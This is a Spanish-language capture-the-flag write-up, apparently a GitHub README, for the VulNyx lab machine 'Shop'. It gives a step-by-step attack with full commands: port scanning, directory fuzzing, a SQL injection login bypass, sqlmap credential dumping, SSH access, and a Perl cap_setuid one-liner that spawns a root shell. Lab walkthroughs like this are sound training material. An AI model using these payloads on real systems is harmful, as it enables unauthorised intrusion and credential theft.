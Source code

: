 ![image](https://github.com/user-attachments/assets/95a3a335-4a51-48e0-adf6-c4e47c37b896)



```markdown
# Máquina Shop - VulNyx (Dificultad: Easy)

## Descripción
Shop es una máquina de la plataforma VulNyx con un nivel de dificultad **Easy**. En este laboratorio, se explora una vulnerabilidad de **inyección SQL (SQLi)** en un panel de administración web, se obtienen credenciales de la base de datos y se realiza una escalada de privilegios aprovechando las **capabilities** de un binario. El objetivo es obtener acceso root a la máquina y encontrar la flag.

## Resumen de conceptos trabajados
- Escaneo de puertos con Nmap.
- Descubrimiento de directorios web.
- Explotación de una vulnerabilidad de inyección SQL (SQLi).
- Escalada de privilegios mediante capabilities (Perl).

---

## Pasos para la resolución

### **1. Conexión y verificación**
- Iniciar sesión como root en la máquina atacante:
  ```bash
  sudo su
  ```
- Crear una carpeta para la máquina Shop:
  ```bash
  mkdir Shop
  cd Shop
  ```
- Verificar la conexión con la máquina víctima:
  ```bash
  arp-scan -I eth0 --localnet
  ping -c 1 192.168.64.140 -R
  ```
  El TTL de 64 indica que es una máquina Linux.

---

### **2. Escaneo de puertos**
- Realizar un escaneo de puertos con Nmap:
  ```bash
  nmap -p- -sSCV --open --min-rate 5000 -vvv -n -Pn 192.168.64.140 -oN escaneo
  ```
  Se detectan los puertos **22 (SSH)** y **80 (HTTP)** abiertos.

- Analizar el servicio HTTP en el puerto 80:
  - Acceder a la web desde el navegador:
    ```
    http://192.168.64.140
    ```
  - La web parece ser un ecommerce sin funcionalidades aparentes.
  - Usar **Wappalyzer** o **whatweb** para identificar tecnologías:
    ```bash
    whatweb 192.168.64.140
    ```
    Se identifica un servidor **Apache 2.4.38** y **jQuery 1.10.2**.

---

### **3. Descubrimiento de directorios**
- Realizar fuzzing de directorios con **dirb** o **gobuster**:
  ```bash
  gobuster dir -u http://192.168.64.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
  Se encuentra el directorio **/administrator**, que contiene un panel de login.

---

### **4. Explotación de SQL Injection (SQLi)**
- Identificar que el panel de login es vulnerable a SQLi:
  - Probar inyecciones básicas como:
    ```sql
    ' OR '1'='1'; --
    ```
- Usar **sqlmap** para automatizar la explotación:
  ```bash
  sqlmap -u http://192.168.64.140/administrator/ --forms --batch --dump
  ```
  - Se detecta que la aplicación es vulnerable a **SQL Blind**.
  - Se extraen credenciales de la base de datos:
    ```
    Usuario: bart
    Contraseña: [contraseña obtenida]
    ```

---

### **5. Acceso SSH**
- Usar las credenciales obtenidas para acceder por SSH:
  ```bash
  ssh bart@192.168.64.140
  ```
  Se obtiene acceso a la máquina como el usuario **bart**.

---

### **6. Escalada de privilegios**

#### **Búsqueda de capabilities**
- Buscar binarios con capabilities especiales:
  ```bash
  /usr/sbin/getcap -r / 2>/dev/null
  ```
  Se identifica que **Perl** tiene la capacidad **cap_setuid+ep**, lo que permite escalar privilegios.

#### **Explotación de Perl**
- Usar **GTFOBins** para escalar privilegios con Perl:
  ```bash
  perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
  ```
  Se obtiene una shell con privilegios de **root**.

---

### **7. Obtención de la flag**
- Buscar la flag en el directorio `/root`:
  ```bash
  cd /root
  cat root.txt
  ```

---

## Resumen
Para resolver la máquina Shop:
1. Se realizó un escaneo de puertos, identificando los servicios SSH y HTTP.
2. Se descubrió un panel de administración vulnerable a SQLi en el directorio `/administrator`.
3. Se explotó la vulnerabilidad de SQLi con **sqlmap**, obteniendo credenciales de la base de datos.
4. Se accedió a la máquina por SSH con las credenciales obtenidas.
5. Se escalaron privilegios aprovechando las capabilities de Perl.
6. Finalmente, se localizó la flag en el directorio `/root`.

Este laboratorio demuestra cómo una vulnerabilidad de inyección SQL y una configuración insegura de capabilities pueden permitir el control total de un sistema.

---

## Herramientas utilizadas
- **Nmap**: Para escaneo de puertos y detección de servicios.
- **Gobuster**: Para descubrimiento de directorios web.
- **sqlmap**: Para explotación de la vulnerabilidad de SQLi.
- **Perl**: Para escalada de privilegios mediante capabilities.

---

